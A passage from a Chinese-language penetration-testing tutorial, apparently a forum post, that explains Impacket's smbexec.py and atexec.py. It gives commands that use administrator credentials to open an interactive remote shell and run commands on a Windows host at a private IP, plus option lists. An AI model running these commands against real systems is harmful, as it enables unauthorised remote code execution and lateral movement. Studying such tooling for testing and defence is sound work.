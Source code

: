 #### 常用命令

**交互式Shell**

```plain
py -3 smbexec.py test/administrator:1qaz@WSX@192.168.40.156
```

[![](assets/1702372846-49fec96a0e529a64f11e16a628d8ba32.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123005-ab53a01e-6bb0-1.png)

#### 常用选项

```plain
-share SHARE 自定义回显的共享路径，默认为C$
-mode {SHARE,SERVER} 设置SHARE回显或者SERVER回显，SERVER回显需要root linux
-shell-type {cmd,powershell} 设置返回的Shell类型
```

### atexec.py

可使用密码认证、hash认证、kerberos认证。

脚本使用前可修改一下回显的共享路径

#### 常用命令

**执行命令获得回显**

```plain
py -3 atexec.py test/administrator:1qaz@WSX@192.168.40.156 whoami
```

[![](assets/1702372846-babd7f3ddaa59b044c15146953b421e1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123158-eed26a6e-6bb0-1.png)

#### 常用选项

[![](assets/1702372846-d59c107e0f27d899a98c1f4ba4119311.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123225-ff09fdac-6bb0-1.png)
